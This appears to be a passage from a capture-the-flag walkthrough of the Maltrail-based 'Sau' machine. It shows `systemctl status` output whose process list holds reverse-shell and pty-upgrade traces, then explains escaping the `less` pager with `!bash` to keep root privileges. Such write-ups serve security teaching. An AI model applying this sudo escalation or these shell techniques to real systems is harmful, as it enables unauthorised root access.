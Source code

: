 ```bash

puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2025-07-19 11:07:21 UTC; 2h 2min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 881 (python3)
      Tasks: 18 (limit: 4662)
     Memory: 40.8M
     CGroup: /system.slice/trail.service
             ├─ 881 /usr/bin/python3 server.py
             ├─1318 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1319 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1322 bash
             ├─1323 bash -i
             ├─1353 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1354 /bin/bash
             ├─1392 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1393 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1396 bash
             ├─1397 bash -i
             ├─1428 script /dev/null -c /bin/bash
             ├─1429 /bin/bash
             ├─1439 sudo /usr/bin/systemctl status trail.service


```
> We get into the file reading mode in `less`.

> We can exit this mode back to the shell but with the `root` privileges preserved using the `!bash` combination:

<p align="center">
  <img src="./screenshots/less_escape.png" alt="less_escape"/>
</p>
